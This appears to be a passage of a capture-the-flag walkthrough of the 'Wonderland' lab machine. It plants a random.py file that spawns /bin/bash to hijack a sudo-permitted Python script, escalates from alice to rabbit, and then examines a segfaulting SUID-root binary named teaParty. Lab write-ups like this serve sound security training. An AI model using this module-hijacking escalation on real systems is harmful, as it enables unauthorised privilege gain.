 # 5. Access rabbit using Python script
### I'm Writing a testing program just for try
```bash
alice@wonderland:~$ echo ""import os"
> os.system("/bin/bash")" > random.py
alice@wonderland:~$ cat random.py 
import os
os.system("/bin/bash")
alice@wonderland:~$ 
```
## Let try to run probably it will run as i think of !!
```bash
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```
## wow I got this 
### So let manually enum this
```bash
rabbit@wonderland:~$ pwd
/home/alice
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ 
```
### I found something suspicious ```teaParty``` is in red colour
## Ok try to execute and read content but it not doing anything.
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 05 Apr 2024 19:27:36 +0000
Ask very nicely, and I will give you some tea while you wait for him
dddd
Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ nano teaParty 
Unable to create directory /home/alice/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

rabbit@wonderland:/home/rabbit$ 
```